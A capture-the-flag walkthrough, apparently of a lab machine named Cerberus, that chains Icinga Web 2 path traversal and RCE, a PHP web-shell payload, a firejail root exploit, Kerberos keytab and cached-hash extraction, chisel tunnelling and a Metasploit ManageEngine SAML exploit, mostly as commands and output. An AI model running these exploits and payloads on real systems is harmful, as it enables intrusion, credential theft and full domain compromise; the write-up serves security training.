## RUSTSCAN:
`PORT     STATE SERVICE REASON         VERSION
8080/tcp open  http    syn-ack ttl 62 Apache httpd 2.4.52 ((Ubuntu))
|_http-server-header: Apache/2.4.52 (Ubuntu)
|_http-open-proxy: Proxy might be redirecting requests
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Did not follow redirect to http://icinga.cerberus.local:8080/icingaweb2
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Linux 5.X|4.X (93%)
OS CPE: cpe:/o:linux:linux_kernel:5.0 cpe:/o:linux:linux_kernel:4
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
Aggressive OS guesses: Linux 5.0 (93%), Linux 4.15 - 5.6 (85%)
No exact OS matches for host (test conditions non-ideal).
TCP/IP fingerprint:
SCAN(V=7.93%E=4%D=3/20%OT=8080%CT=%CU=%PV=Y%DS=2%DC=T%G=N%TM=64186BB4%P=x86_64-pc-linux-gnu)
SEQ(SP=104%GCD=1%ISR=106%TI=Z%II=I%TS=A)
OPS(O1=M53CST11NW7%O2=M53CST11NW7%O3=M53CNNT11NW7%O4=M53CST11NW7%O5=M53CST11NW7%O6=M53CST11)
WIN(W1=FE88%W2=FE88%W3=FE88%W4=FE88%W5=FE88%W6=FE88)
ECN(R=Y%DF=Y%TG=40%W=FAF0%O=M53CNNSNW7%CC=Y%Q=)
T1(R=Y%DF=Y%TG=40%S=O%A=S+%F=AS%RD=0%Q=)
T2(R=N)
T3(R=N)
T4(R=Y%DF=Y%TG=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)
U1(R=N)
IE(R=Y%DFI=N%TG=80%CD=Z)

Uptime guess: 23.673 days (since Fri Feb 24 23:12:09 2023)
Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=260 (Good luck!)
IP ID Sequence Generation: All zeros`
* * *
## PORT - 8080:
Trying to open the website on the Browser we get redirected to another website:


let's add that website to our hosts file: `http://icinga.cerberus.local:8080/icingaweb2`

Adding the hosts we get redirected to an Icinga login page:


Let's try to search for subdomains with FFUF but nothing came out:
`┌──(root㉿DESKTOP-1KSM320)-[/home/aleksandar/Downloads]
└─# ffuf -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt -u 'http://icinga.cerberus.local:8080/' -H 'Host:FUZZ.cerberus.local' -fl 1

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.0.0-dev
________________________________________________
 :: Method           : GET
 :: URL              : http://icinga.cerberus.local:8080/
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt
 :: Header           : Host: FUZZ.cerberus.local
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
 :: Filter           : Response lines: 1
________________________________________________
:: Progress: [19966/19966] :: Job [1/1] :: 1081 req/sec :: Duration: [0:00:21] :: Errors: 0 ::`

So far checking anything came out so far, no special Subdomains nor Web directories from fuzzing so I was manually checking for possible new explois and knowing that we have Icinga Web 2 this could be duable?
https://www.sonarsource.com/blog/path-traversal-vulnerabilities-in-icinga-web/
More specifically this one: 


Googling aroud found this script: https://github.com/JacobEbben/CVE-2022-24716
And cloning the repository and trying to fetch for exaple the "/etc/passwd" from the main URL we get it:


From here we have Matthew as username, icingadb, root, nagios, redis and lastly www-data. We know from the challenge that this was a Windowd Machine, but the script fetched /etc/passwd file which means this is a Linux machine, which most likely means it's a Container environment?
Checking the hosts file we have the address of the host?
`
┌──(root㉿DESKTOP-1KSM320)-[/home/aleksandar/Downloads/CVE-2022-24716]
└─# python3 exploit.py "http://icinga.cerberus.local:8080/icingaweb2/" "/etc/hosts"
127.0.0.1 iceinga.cerberus.local iceinga
127.0.1.1 localhost
172.16.22.1 DC.cerberus.local DC cerberus.local
# The following lines are desirable for IPv6 capable hosts
::1     ip6-localhost ip6-loopback
fe00::0 ip6-localnet
ff00::0 ip6-mcastprefix
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters`

So far we know that to get a RCE we have to get an authenticated session so far we have to surf thru all the IcingaWeb2 configuration files and harvest for juicy informations...

Directly from the Icigna configuration file:


Config.ini shows generic informations:
`┌──(root㉿DESKTOP-1KSM320)-[/home/aleksandar/Downloads/CVE-2022-24716]
└─# python3 exploit.py "http://icinga.cerberus.local:8080/icingaweb2/" "/etc/icingaweb2/config.ini"
[global]
show_stacktraces = "1"
show_application_state_messages = "1"
config_backend = "db"
config_resource = "icingaweb2"
module_path = "/usr/share/icingaweb2/modules/"
[logging]
log = "syslog"
level = "ERROR"
application = "icingaweb2"
facility = "user"
[themes]
[authentication]`

Resources.ini shows us the user credentials for the Web portal:
`┌──(root㉿DESKTOP-1KSM320)-[/home/aleksandar/Downloads/CVE-2022-24716]
└─# python3 exploit.py "http://icinga.cerberus.local:8080/icingaweb2/" "/etc/icingaweb2/resources.ini"
[icingaweb2]
type = "db"
db = "mysql"
host = "localhost"
dbname = "icingaweb2"
username = "matthew"
password = "IcingaWebPassword2023"
use_ssl = "0"`

Roles.ini shows that Matthew is part of Administrators group in Icinga:
`┌──(root㉿DESKTOP-1KSM320)-[/home/aleksandar/Downloads/CVE-2022-24716]
└─# python3 exploit.py "http://icinga.cerberus.local:8080/icingaweb2/" "/etc/icingaweb2/roles.ini"
[Administrators]
users = "matthew"
permissions = "*"
groups = "Administrators"
unrestricted = "1"`

And lastly from the Authentication.ini we can get the DB name??
`┌──(root㉿DESKTOP-1KSM320)-[/home/aleksandar/Downloads/CVE-2022-24716]
└─# python3 exploit.py "http://icinga.cerberus.local:8080/icingaweb2/" "/etc/icingaweb2/authentication.ini"
[icingaweb2]
backend = "db"
resource = "icingaweb2"`
* * *
## ICINGA2 - FOOTHOLD:
We can try to login with Matthew credentials into the Web portal and we are in!!


Now can we use the Remote Code Execution (CVE-2022-24715) exploit since we are authenticated.
But most likely we will fail cause we don't have write permission as www-data:


So we can do what suggested and user /dev/shm as folder path on the test module.
Now to make it work as first step i need to do is to change from default path into Modules global configuration:

To:


And now can we see much more as explained into the document, now we can enable the module:


And lastly we have to find a valid pem file.. I by checking our system the path specifiled by the article seems plausible:
/usr/lib/python3/dist-packages/twisted/test/server.pem

Otherwise we could use as well: /usr/lib/ssl/cert.pem

But after some several testings all were failing so I skipped using the exploit and instead do it manually with curl:
`┌──(root㉿DESKTOP-1KSM320)-[/home/aleksandar/Downloads/CVE-2022-24716]
└─# curl http://icinga.cerberus.local:8080/icingaweb2/lib/icinga/icinga-php-thirdparty/etc/hosts
127.0.0.1 iceinga.cerberus.local iceinga
127.0.1.1 localhost
172.16.22.1 DC.cerberus.local DC cerberus.local

# The following lines are desirable for IPv6 capable hosts
::1     ip6-localhost ip6-loopback
fe00::0 ip6-localnet
ff00::0 ip6-mcastprefix
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters`

And specifically would be something like this:
`curl http://icinga.cerberus.local:8080/icingaweb2/lib/icinga/icinga-php-thirdpartyfile:///usr/lib/ssl/cert.pem\x00<?php system("id);`
where the php part would need to be URL encoded:
`file:///usr/lib/ssl/cert.pem%5Cx00%3C?php%20system(%22id);`

So far nothing worked, then the night at home i read more about the CVE and apparently both CVE are similar but not same, the first one using PATH transversal to do a LFI basically but the other one uses PATH transversal to gain RCE via PHP payload and needs to be done from the Webgui and not by using the first exploit(I was doing that basically).
https://portswigger.net/daily-swig/brace-of-icinga-web-vulnerabilities-easily-chained-to-hack-it-monitoring-software
And this is what I mean:


So going back to the article from SonarSource I think the path of the Path transversal is: 

`php-src/ext/openssl<phppayload>`

Edit: I was wrong it was not as easy as I thought.. Basically the first step I did to enable the dev/shm was right then we had to create a new ssh key and copy the private id_rsa into the private key and lasttly form our payload 
1. Add /dev/ to the Application module path
2. Enable the shm module
3. Create a new ssh key
4. Upload the new private key 
5. Send a payload using that new key

## Exploit:
First we had to check what Source was saying:

And the application path:`/usr/share/icingaweb2/application/forms/Config/Resource/SshResourceForm.php`
A ssh key is saved under $configDir . '/ssh/' . $user; 
Which means if we try to open "/etc/icingaweb2/.ssh/$user it should have the keys there...

1) Adding /dev/

2)Enabling the module on shm

3)Generate a new private key with ssh-keygen (but add it as pem **important**)
`┌──(aleksandar㉿DESKTOP-1KSM320)-[~/.ssh]
└─$ ssh-keygen -m pem
Generating public/private rsa key pair.
Enter file in which to save the key (/home/aleksandar/.ssh/id_rsa):
/home/aleksandar/.ssh/id_rsa already exists.
Overwrite (y/n)? y
Enter passphrase (empty for no passphrase):
Enter same passphrase again:
Your identification has been saved in /home/aleksandar/.ssh/id_rsa
Your public key has been saved in /home/aleksandar/.ssh/id_rsa.pub`
4)Now we have to upload that private id_rsa in pem format to default path which is /$config_dir/.ssh/$user
`Example ¶
The name in brackets defines the resource name.
[ssh]
type        = "ssh"
user        = "ssh-user"
private_key = "/etc/icingaweb2/ssh/ssh-user"`

So which means:

5)Now we can run the payload from the article by using privatekey to use the specially formed payload with file:// , name is whatever, and the user is the path where to save the php payload which will be /dev/shm/id.php

- Resource type: ssh identity
- User: ../../../../../../../dev/shm/id.php
- Private key: file:///etc/icingaweb2/.ssh/aleksandar\x00<?php system($_GET['cmd']);?>

Explaination: the reason of all that escapes is in the document from sonar, where the sshresourceform.ssh is in path:`/usr/share/icingaweb2/application/forms/Config/Resource/SshResourceForm.php`

Let's try(we need to be fast to enable /dev/shm and then check that file is available):


And finally we get it working:


And now we have to catch the shell so we set up a listener on our machine and then send a url encoded payload.


But it didn't worked out so I tried several with NC and bash but then I succeded by using a Python one:


And we have a shell, Bingo!

* * *
## Road to User.txt:
Now I will upload a linpeas script to do first enumeration, cause i'm too lazy. We want to move from www-data to matthew and then escape the container...

`╔══════════╣ Searching kerberos conf files and tickets
╚ http://book.hacktricks.xyz/linux-hardening/privilege-escalation/linux-active-directory
kadmin was found on /usr/bin/kadmin
klist execution
klist: Credentials cache 'KCM:33' not found
ptrace protection is enabled (1), you need to disable it to search for tickets inside processes memory
-rw-r--r-- 1 root root 1176 Mar 22 19:38 /etc/krb5.conf
[libdefaults]
default_realm = CERBERUS.LOCAL

# The following krb5.conf variables are only for MIT Kerberos.
        kdc_timesync = 1
        ccache_type = 4
        forwardable = true
        proxiable = true
        udp_preference_limit = 0
        default_ccache_name = KCM:
# The following encryption type specification will be used by MIT Kerberos
# if uncommented.  In general, the defaults in the MIT Kerberos code are
# correct and overriding these specifications only serves to disable new
# encryption types as they are added, creating interoperability problems.
#
# The only time when you might need to uncomment these lines and change
# the enctypes is if you have local software that will break on ticket
# caches containing ticket encryption types it doesn't know about (such as
# old versions of Sun Java).

#       default_tgs_enctypes = des3-hmac-sha1
#       default_tkt_enctypes = des3-hmac-sha1
#       permitted_enctypes = des3-hmac-sha1

# The following libdefaults parameters are only for Heimdal Kerberos.
#       fcc-mit-ticketflags = true
#udp_preference_limit = 0

[realms]
        CERBERUS.LOCAL = {
                kdc = DC.cerberus.local
                admin_server = DC.cerberus.local
        }

[domain_realm]
        .cerberus.local = CERBERUS.LOCAL
-rw-r--r-- 1 root root 169 Oct  4 23:04 /usr/lib/x86_64-linux-gnu/sssd/conf/sssd.conf
[sssd]
domains = shadowutils

[nss]

[pam]

[domain/shadowutils]
id_provider = files

auth_provider = proxy
proxy_pam_target = sssd-shadowutils

proxy_fast_alias = True
tickets kerberos Not Found
klist Not Found
`
`-rwsr-xr-x 1 root root 15K Feb  4  2021 /usr/sbin/ccreds_chkpwd (Unknown SUID binary!)
-rwsr-xr-x 1 root root 464K Jan 19  2022 /usr/bin/firejail (Unknown SUID binary!)`

So far we have traces about kerberos and some SUID binaries that seems quite interesting...
So far the first one seems like a custom binary to maybe check for password but what about that Firejail? Seems like there is several CVE for local priviledge escalation out in the wild but we have to check for it's version first..

`www-data@icinga:/tmp$ firejail --version
firejail --version
firejail version 0.9.68rc1`

Then googling about that exact version came out an article on NMAP about:


Now nailing it down and searching for the specificall CVE-2022-31214 exploit found in the same site that bug hunter released a poc that can be used:


So we can download the script and upload to the machine itself..
And running the script:
`www-data@icinga:/tmp$ python3 firejoin.py
python3 firejoin.py
You can now run 'firejail --join=29852' in another terminal to obtain a shell where 'sudo su -' should grant you a root shell.
`

And now technically if we spin a new RCE should be able to become root!
`www-data@icinga:/tmp$ firejail --join=29852
firejail --join=29852
changing root to /proc/29852/root
Warning: cleaning all supplementary groups
Child process initialized in 18.28 ms`

And lastly sudo su -:


Good now we are root and we can grab our first flag:

Ok it's not in matthew, but is it in root?
NO:


Ok so small recap, we are root, but into the Container so we have to escape the container to the DC that is poiting on another address... User and root flag are most probably outside on the DC. 
So here i decided to go back to that kerberos config under /etc:
-rw-r--r--  1 root     root        1176 Mar 22 19:38 krb5.conf
-rw-------  1 root     root         695 Mar  1 12:05 krb5.keytab

Now i guess that krb5.keytab is a DB on the kerberos files and to extract them we need to use this: https://book.hacktricks.xyz/linux-hardening/privilege-escalation/linux-active-directory#extract-accounts-from-etc-krb5.keytab
And we have a key extracted:
`root@icinga:/tmp# python3 keytabextract.py /etc/krb5.keytab
python3 keytabextract.py /etc/krb5.keytab
[*] RC4-HMAC Encryption detected. Will attempt to extract NTLM hash.
[*] AES256-CTS-HMAC-SHA1 key found. Will attempt hash extraction.
[*] AES128-CTS-HMAC-SHA1 hash discovered. Will attempt hash extraction.
[+] Keytab File successfully imported.
        REALM : CERBERUS.LOCAL
        SERVICE PRINCIPAL : ICINGA$/
        NTLM HASH : af70cf6b33f1cce788138d459f676faf
        AES-256 HASH : 38df579da95520b9489e85a22aec9d3ca4916d5b9a37ff6f0ecda8eec992479f
        AES-128 HASH : 1241a65425ce5c7a0f06be09e8217274`

Now I decided to run linpeas again, but this time as Root and recap what i've found:
`/home/matthew/.bash_history
/home/matthew/.mysql_history
╔══════════╣ Unexpected in /opt (usually empty)
total 12
drwxr-xr-x  3 root root 4096 Jan 23 18:24 .
drwxr-xr-x 18 root root 4096 Jan 23 18:22 ..
drwxr-xr-x  3 root root 4096 Jan 23 18:24 microsoft
-rwsr-xr-x 1 root root 15K Feb  4  2021 /usr/sbin/ccreds_chkpwd (Unknown SUID binary!)
proxy_fast_alias = True
You could use SSSDKCMExtractor to extract the tickets stored here
-rw------- 1 root root 1638400 Mar  1 12:11 /var/lib/sss/secrets/secrets.ldb
tickets kerberos Not Found
══════════════════════════════╣ Network Information ╠══════════════════════════════
                              ╚═════════════════════╝
╔══════════╣ Hostname, hosts and DNS
icinga
127.0.0.1 iceinga.cerberus.local iceinga
127.0.1.1 localhost
172.16.22.1 DC.cerberus.local DC cerberus.local
::1     ip6-localhost ip6-loopback
fe00::0 ip6-localnet
ff00::0 ip6-mcastprefix
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
nameserver 127.0.0.53
options edns0 trust-ad
search .
╔══════════╣ Interfaces
# symbolic names for networks, see networks(5) for more information
link-local 169.254.0.0
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 172.16.22.2  netmask 255.255.255.240  broadcast 172.16.22.15
        inet6 fe80::215:5dff:fe5f:e801  prefixlen 64  scopeid 0x20<link>
        ether 00:15:5d:5f:e8:01  txqueuelen 1000  (Ethernet)
        RX packets 67768  bytes 47911125 (47.9 MB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 47815  bytes 47097634 (47.0 MB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        inet6 ::1  prefixlen 128  scopeid 0x10<host>
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 70672  bytes 5413016 (5.4 MB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 70672  bytes 5413016 (5.4 MB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
╔══════════╣ Active Ports
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#open-ports
tcp        0      0 127.0.0.1:6379          0.0.0.0:*               LISTEN      632/redis-server 12
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      755/mariadbd
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      528/systemd-resolve
tcp6       0      0 :::80                   :::*                    LISTEN      664/apache2
tcp6       0      0 ::1:6379                :::*                    LISTEN      632/redis-server 12`

So here I started to follow the path to download the:
You could use SSSDKCMExtractor to extract the tickets stored here
-rw------- 1 root root 1638400 Mar  1 12:11 /var/lib/sss/secrets/secrets.ldb

But couldn't find any mkey in the default path and the solution here was to check manually for the base directory /var/lib/sss/:
`root@icinga:/var/lib/sss# ls -al
ls -al
total 40
drwxr-xr-x 10 root root 4096 Jan 22 18:12 .
drwxr-xr-x 38 root root 4096 Jan 29 00:17 ..
drwx------  2 root root 4096 Mar  2 12:33 db
drwxr-x--x  2 root root 4096 Oct  4 23:04 deskprofile
drwxr-xr-x  2 root root 4096 Oct  4 23:04 gpo_cache
drwx------  2 root root 4096 Oct  4 23:04 keytabs
drwxrwxr-x  2 root root 4096 Mar 22 19:38 mc
drwxr-xr-x  3 root root 4096 Mar 22 19:38 pipes
drwxr-xr-x  3 root root 4096 Mar 23 11:48 pubconf
drwx------  2 root root 4096 Jan 22 22:36 secrets`

Here the db folder was the one to exfiltrate:


Now i will try to dump the content of the first cache_cerberus.local.ldb, we can't decrypt it because we donät have the mkey but since it's a DB we can read the text and download the hash of husers from it:


What really matters here is the cached password `cachedPasswordj$6$6LP9gyiXJCovapcy$0qmZTTjp9f2A0e7n4xk0L6ZoeKhhaCNm0VGJnX/Mu608QkliMpIy1FwKZlyUJAZU3FZ3.GQ.4N6bb9pxE3t3T0cachedPassword`

and by checking that $6$xxxxxxx from hashcat that is :


We have the password of matthew:
`
$6$6LP9gyiXJCovapcy$0qmZTTjp9f2A0e7n4xk0L6ZoeKhhaCNm0VGJnX/Mu608QkliMpIy1FwKZlyUJAZU3FZ3.GQ.4N6bb9pxE3t3T0:147258369
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 1800 (sha512crypt $6$, SHA512 (Unix))
Hash.Target......: $6$6LP9gyiXJCovapcy$0qmZTTjp9f2A0e7n4xk0L6ZoeKhhaCN...E3t3T0
Time.Started.....: Thu Mar 23 13:42:03 2023 (0 secs)
Time.Estimated...: Thu Mar 23 13:42:03 2023 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:     3910 H/s (12.33ms) @ Accel:512 Loops:512 Thr:1 Vec:4
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 512/14344385 (0.00%)
Rejected.........: 0/512 (0.00%)
Restore.Point....: 0/14344385 (0.00%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:4608-5000
Candidate.Engine.: Device Generator
Candidates.#1....: 123456 -> letmein
Started: Thu Mar 23 13:41:42 2023
Stopped: Thu Mar 23 13:42:04 2023`

Same is if we use John:
`┌──(root㉿DESKTOP-1KSM320)-[/home/aleksandar/Downloads]
└─# john matthew.txt --wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 256/256 AVX2 4x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 12 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
147258369        (?)
1g 0:00:00:00 DONE (2023-03-23 15:35) 4.545g/s 6981p/s 6981c/s 6981C/s 123456..mexico1
Use the "--show" option to display all of the cracked passwords reliably
Session completed.`

* * *
## Pivoting to DC:
Now logic says that we have to pivot to the DC.cerberus.local since we are already root in our container and we need to move forward. Going back to our Linpeas enumeration we found that DC(host):
`172.16.22.1 DC.cerberus.local DC cerberus.local`

And containers IP is:
`2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc mq state UP group default qlen 1000
    link/ether 00:15:5d:5f:e8:01 brd ff:ff:ff:ff:ff:ff
    inet 172.16.22.2/28 brd 172.16.22.15 scope global eth0`
	
Now easiest will be to first upload a port scanner and scan all the open ports on the DC and then eventually upload sshuttle/chisel and pivot those ports to our machine!
Edit: here scanning took forever so I decided to do a blind forwading knowing from my past experience that Winrm is on 5985:
`root@icinga:/tmp# ./nc -zv 172.16.22.1 5985
./nc -zv 172.16.22.1 5985
172.16.22.1: inverse host lookup failed: ��z�fy
(UNKNOWN) [172.16.22.1] 5985 (?) open`

Now that we know it, we have to use chisel to forward port 5985 from DC -> Docker -> Attacker
So following this guide: https://book.hacktricks.xyz/generic-methodologies-and-resources/tunneling-and-port-forwarding#port-forwarding

We setup a chisel server on our attacking machie listening in reverse mode:
`┌──(root㉿DESKTOP-1KSM320)-[/home/aleksandar/Downloads]
└─# ./chisel_1.7.7_linux_amd64 server -p 9999 --reverse
2023/03/23 15:16:08 server: Reverse tunnelling enabled
2023/03/23 15:16:08 server: Fingerprint B9DxuFBe/2rFQj2U2LBj4CP4L6rwTVnKYN9cuwnezVg=
2023/03/23 15:16:08 server: Listening on http://0.0.0.0:9999`

Then we upload same chuisel version on the docker and we sent it up as listener redirecting the port 5985 to our machine:
`root@icinga:/tmp# ./chisel client 10.10.14.6:9999 R:5985:172.16.22.1:5985
./chisel client 10.10.14.6:9999 R:5985:172.16.22.1:5985
2023/03/23 14:20:18 client: Connecting to ws://10.10.14.6:9999
2023/03/23 14:20:18 client: Connected (Latency 38.1614ms)`

Checking back on our server side we can see that communication is working:
`┌──(root㉿DESKTOP-1KSM320)-[/home/aleksandar/Downloads]
└─# ./chisel_1.7.7_linux_amd64 server -p 9999 --reverse
2023/03/23 15:16:08 server: Reverse tunnelling enabled
2023/03/23 15:16:08 server: Fingerprint B9DxuFBe/2rFQj2U2LBj4CP4L6rwTVnKYN9cuwnezVg=
2023/03/23 15:16:08 server: Listening on http://0.0.0.0:9999
2023/03/23 15:20:15 server: session#1: tun: proxy#R:5985=>172.16.22.1:5985: Listening`

Now technically we should be able to to reach it via evil-winrm from our machine..
And we are in!


Now we can grab our first flag:

* * *
## Road to Root.txt:
So far checking manually on users we can see some adfs folders:
`l*Evil-WinRM* PS C:\Users> ls
    Directory: C:\Users
Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----        1/30/2023   2:44 AM                adfs_svc$
d-----        1/30/2023   4:14 AM                adfs_svc$.CERBERUS
d-----       11/29/2022   4:24 AM                Administrator
d-----        1/22/2023  11:22 AM                matthew
d-r---        4/10/2020  10:49 AM                Public
`

And no strange permissions on matthew account:

In the meantime will try to upload WInpeas for a total enumeration and Shaphound as well even if i don't think is our way to go since can't see any other user loggen in so far...
We find something worth to check:
`ÉÍÍÍÍÍÍÍÍÍ͹ Checking KrbRelayUp
È  https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#krbrelayup
  The system is inside a domain (CERBERUS) so it could be vulnerable.
È You can try https://github.com/Dec0ne/KrbRelayUp to escalate privileges`

And we can see some certificates:
`ÉÍÍÍÍÍÍÍÍÍ͹ Enumerating machine and user certificate files

  Issuer             : CN=cerberus-DC-CA, DC=cerberus, DC=local
  Subject            : CN=cerberus-DC-CA, DC=cerberus, DC=local
  ValidDate          : 1/30/2023 2:16:22 AM
  ExpiryDate         : 1/30/2123 2:26:19 AM
  HasPrivateKey      : True
  StoreLocation      : LocalMachine
  KeyExportable      : True
  Thumbprint         : D4F22C29EE295DCB7452703F28324CEF20F47937

   =================================================================================================

  Issuer             : CN=cerberus-DC-CA, DC=cerberus, DC=local
  Subject            : CN=DC.cerberus.local
  ValidDate          : 1/30/2023 5:21:36 AM
  ExpiryDate         : 1/30/2024 5:21:36 AM
  HasPrivateKey      : True
  StoreLocation      : LocalMachine
  KeyExportable      : True
  Thumbprint         : 728B30A64135FBD120F5132356ED7E0D120EE465

  Template           : DomainController
  Enhanced Key Usages
       Client Authentication     [*] Certificate is used for client authentication!
       Server Authentication
   =================================================================================================

  Issuer             : CN=cerberus-DC-CA, DC=cerberus, DC=local
  Subject            : CN=dc.cerberus.local
  ValidDate          : 1/30/2023 5:07:19 AM
  ExpiryDate         : 1/30/2025 5:17:19 AM
  HasPrivateKey      : True
  StoreLocation      : LocalMachine
  KeyExportable      : True
  Thumbprint         : 2FB8BBB8ABE29BD70F0A652E40549112D104AD28

  Template           : Template=Web Server AD(1.3.6.1.4.1.311.21.8.3006731.2978273.16728206.13691924.6876050.39.1888683.14218701), Major Version Number=100, Minor Version Number=3
  Enhanced Key Usages
       Server Authentication
   =================================================================================================

  Issuer             : CN=cerberus-DC-CA, DC=cerberus, DC=local
  Subject            : CN=cerberus-DC-CA, DC=cerberus, DC=local
  ValidDate          : 1/30/2023 3:08:36 AM
  ExpiryDate         : 1/30/2123 3:18:33 AM
  HasPrivateKey      : True
  StoreLocation      : LocalMachine
  KeyExportable      : True
  Thumbprint         : 26EEB88B301D5641DA2FA1519A0951AAAEAED49D
`
And latery a self service portal for AD?
`
ÉÍÍÍÍÍÍÍÍÍ͹ Found Tomcat Files
File: C:\Program Files (x86)\ManageEngine\ADSelfService Plus\conf\tomcat-users.xml

ÉÍÍÍÍÍÍÍÍÍ͹ Found CERTSB4 Files
File: C:\Program Files (x86)\ManageEngine\ADSelfService Plus\conf\rsacert256.pem
File: C:\Program Files (x86)\ManageEngine\ADSelfService Plus\conf\rsacert.pem

ÉÍÍÍÍÍÍÍÍÍ͹ Found CERTSBIN Files
File: C:\Program Files (x86)\ManageEngine\ADSelfService Plus\webapps\adssp\Certificates\cerberus.local.csr

ÉÍÍÍÍÍÍÍÍÍ͹ Found CERTSCLIENT Files
File: C:\Program Files (x86)\ManageEngine\ADSelfService Plus\conf\server_cert_backup_1675020408908..pfx
File: C:\Program Files (x86)\ManageEngine\ADSelfService Plus\conf\server.p12
File: C:\Program Files (x86)\ManageEngine\ADSelfService Plus\conf\ios_push_cert.p12
`
So we can't find any vulnerable certificate templates so we have to exclude that:

 Moving forward i guess the solution is that third party self service portal: https://github.com/rapid7/metasploit-framework/pull/17567
 
We can get the version of the application from it's config:
`*Evil-WinRM* PS C:\Program Files (x86)\ManageEngine\ADSelfService Plus\conf> cat admanager_self_service_details.txt
PRODUCT_NAME=ADSelf Service Plus
PRODUCT_VERSION=6.2
LEADSOURCE=INSTALLATION
IS_FREETOOL=FALSE`

And checking into MSFConsole sure man there is a exploit ready:

 Checking the config we can see the login url:
 `*Evil-WinRM* PS C:\Program Files (x86)\ManageEngine\ADSelfService Plus\conf> cat webclient.conf
https://localhost:9251`

Now to make it work properly we have to use chisel to forward 3 different ports, Shell port, HTTP and 9251 from the exploit. And lastly we can run the exploit from Metepreter...
Easiest would be to use again chisel but this time on socks mode so we can foward all ports and not only one, but this time not from docker but directly from Windows DC -> socks -> Kali.
We can follow againg this guide: https://book.hacktricks.xyz/generic-methodologies-and-resources/tunneling-and-port-forwarding#socks-1

1) we run chisel server on our machine in reverse mode:

2) We upload a binary of chisel on windows machine:

3)We run chisel in client mode on Windows session with socks mode on:

4)we check back on our machine that communication is started:


Now before we start we have to add the ip of the DC in our hosts:
`172.16.22.1 DC.cerberus.local DC cerberus.local`

Settings to make it work in chrome:

Now we know from here: https://www.manageengine.com/products/self-service-password/help/admin-guide/working.html 
That we can reach the configuration portal from port 8888 which btw was open on the client:

Now after have added proxychain in chrome and played a bit with settings I got it finally working:

We can try to login into configuration portal with matthew credentials we found early:


Now we got some kind of id:`https://dc:9251/samlLogin/67a8d101690402dc6a6744b8fc8a7ca1acf88b2f`
And on the forum people tipsed to use SAML tracer to check for saml tickets since we know that saml is active indeed:


And after login we can see that saml tracer found some informations:

Now we can use this: https://samltool.io/ to parse all the saml requests and find the ISSUER_URL, someone on the forum tipsed to check the "Summary" tab and we have it:

`Issuer: 	http://dc.cerberus.local/adfs/services/trust`

Now we have everithing in our hands to use the exploit script from Metasploit in order to get last flag:


But remeber to launch Metasploit with proxychain first:


And we have a shell baby!
`msf6 exploit(multi/http/manageengine_adselfservice_plus_saml_rce_cve_2022_47966) > run
[proxychains] DLL init: proxychains-ng 4.16
[proxychains] DLL init: proxychains-ng 4.16

[*] Started reverse TCP handler on 10.10.14.6:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  172.16.22.1:9251  ...  OK
[!] The service is running, but could not be validated.
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  172.16.22.1:9251  ...  OK
[*] Sending stage (175686 bytes) to 10.10.11.205
[proxychains] DLL init: proxychains-ng 4.16
[*] Meterpreter session 1 opened (10.10.14.6:4444 -> 10.10.11.205:61840) at 2023-03-24 14:40:38 +0100

[proxychains] DLL init: proxychains-ng 4.16
[proxychains] DLL init: proxychains-ng 4.16
[proxychains] DLL init: proxychains-ng 4.16
[proxychains] DLL init: proxychains-ng 4.16
[proxychains] DLL init: proxychains-ng 4.16`

And we can grab last flag:
`meterpreter > getuid
[proxychains] DLL init: proxychains-ng 4.16
[proxychains] DLL init: proxychains-ng 4.16
Server username: NT AUTHORITY\SYSTEM`
* * *

